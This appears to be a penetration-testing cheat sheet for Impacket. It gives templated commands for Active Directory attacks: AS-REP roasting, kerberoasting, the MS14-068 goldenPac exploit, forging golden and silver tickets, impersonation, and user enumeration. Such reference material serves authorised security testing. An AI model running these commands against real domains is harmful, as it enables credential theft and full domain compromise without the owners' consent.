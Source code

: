 # Impacket

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT (ASREPRoasting)
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’ (ASREPRoasting)
#assessment/AD #target/remote  #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account (kerberoasting)
#assessment/AD #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac
#assessment/AD #target/remote  #cat/ATTACK/EXPLOIT 
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
#assessment/AD #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## Ticketer - (silver ticket) - generate TGS tickets into ccache format which can be converted further into kirbi.
#assessment/AD #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
#assessment/AD #target/local  #cat/UTILS
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impersonate user
#assessment/AD #target/remote  #cat/ATTACK/EXPLOIT 
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
#assessment/AD #target/remote  #cat/UTILS
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
#assessment/AD #target/remote  #cat/RECON 
```
GetADUsers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```
